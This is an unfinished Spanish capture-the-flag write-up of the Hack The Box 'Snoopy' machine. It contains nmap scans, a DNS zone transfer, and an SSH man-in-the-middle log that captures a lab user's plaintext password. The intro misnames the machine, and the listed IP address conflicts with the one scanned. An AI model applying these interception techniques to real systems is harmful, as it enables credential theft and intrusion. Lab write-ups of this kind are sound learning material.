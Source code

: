 # Snoopy Writeup

| Sistema Operativo | Dificultad | Puntos | Dirección IP |
|-------------------|------------|--------|-------------|
| Linux            | Fácil      | 20     | 10.10.11.189 |

**NOTA:** El writeup no está completo ya que solo tomé notas durante el proceso, pronto lo voy a actualizar.

## Intro
Klk mi gente!!!, mi nombre es the_owner, y en el día de hoy estaremos explotando la máquina Precious de HTB, es una máquina
Linux, que cuenta con un servicio web y uno ssh, vamos a ver que encontramos!

## Vamos al mambo
1. Primero vamos a ejecutar nuestro nmap para verificar los puertos abiertos que tiene la máquina:

```bash
nmap -sS -Pn -vvv 10.10.11.212 -oG allports
```

![img01](./img/Untitled%201.png)

2. Luego obtenido los puertos rápidamente podemos ejecutar un escaneo más profundo específicamente en esos puertos. Esto lo
haremos con el siguiente comando:


```
# Nmap 7.93 scan initiated Fri May 12 17:46:06 2023 as: nmap -sC -sV -n -vvv -p22,53,80 -oN nmap-results 10.10.11.212
Nmap scan report for 10.10.11.212
Host is up, received reset ttl 63 (0.13s latency).
Scanned at 2023-05-12 17:46:07 EDT for 16s
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 ee6bcec5b6e3fa1b97c03d5fe3f1a16e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwa6lTzS8uZRb7EebEXbLkAU0FpJ8k9KO+YwTTeEE7E3VgGZr4vOP4EOZce1XDgwR
| 256 545941e1719a1a879c1e995059bfe5ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZTgpF2zR6Xamvdn+NyIUGFtq7hXBd7RK3SM00IMQht
53/tcp open domain syn-ack ttl 63 ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SnoopySec Bootstrap Template - Index
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods:
|_ Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 12 17:46:23 2023 -- 1 IP address (1 host up) scanned in 16.35 seconds
```


```
dig axfr @10.10.11.212 snoopy.htb
```

![img02](./img/Untitled%202.png)

Ajustamos en archivo /etc/hosts con los subdominios interesantes que hemos encontrado durante el escaneo con dig. 

![img03](./img/Untitled%203.png)


Usamos nsupdate

![img04](./img/Untitled%204.png)


Creamos un SMTP server por medio de python

![img05](./img/Untitled%205.png)

Recibimos el link de reset password

![img06](./img/Untitled%206.png)

Por medio de ssh mitm encontramos las credenciales del user cbrown.

![img07](./img/Untitled%207.png)

```
┌──(root㉿kali)-[/home/…/Desktop/htb/snoopy/ssh-proxy]
└─# ./ssh-proxy --rhost 10.10.11.212 --rport 22 hola
[OPTION] Server listen on local port 2222 default
[OPTION] Verbosity set to 0 default
[OPTION] Server load rsa key /etc/ssh/ssh_host_rsa_key default
[OPTION] lport = 2222, rhost = 10.10.11.212, rport = 22, verbosity = 0
[OPTION] hostkey = /etc/ssh/ssh_host_ed25519_key, rsakey = /etc/ssh/ssh_host_rsa_key, dsakey = /etc/ssh/ssh_host_dsa_key, ecdsakey = /etc/ss
rsakey : /etc/ssh/ssh_host_rsa_key
[SERVER] Listening on local port 2222
[SERVER] Bind accept
[SERVER] Set auth methods: (password)
[CLIENT] * Wait for connecting remote SERVER
[CLIENT] error: The server is unknown.
SHA256:XCYXaxdk/Kqjbrpe8gktW9N6/6egnc+Dy9V6SiBp4XY
[CLIENT] Auto Trust.
[CLIENT] Connecting SERVER 10.100.1.33
[CLIENT] * Wait for client shell
[SERVER] * If the user has used up all attempts, or if he hasn't been able to authenticate in 60 seconds (n * 100ms), disconnect
[CLIENT] > Try auth with Username:cbrown and Password:sn00pedcr3dential!!!
[CLIENT] Authentication successed (password), user:cbrown
[SERVER] < channel 0: new [server-session]
[CLIENT] > channel 0: new [client-session]
[CLIENT] > channel 0: send open
[CLIENT] Entering interactive session
[*** SERVER EVENT LOOP ***]
[CLIENT] ==> Exec command ls -la
```
ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQCn0udhX7kIIQWObT4Uw0G03lxs+rlCO3qPLcdSv3DSpEFUFzOrOVwBaL273OEZD+r0iX
cbrown@snoopy.htb

Primera fase de lateral movement

![img08](./img/Untitled%208.png)

Segunda fase de lateral momevent

![img09](./img/Untitled%209.png)

![img10](./img/Untitled%2010.png)

Escalación de privs

![img11](./img/Untitled%2011.png)
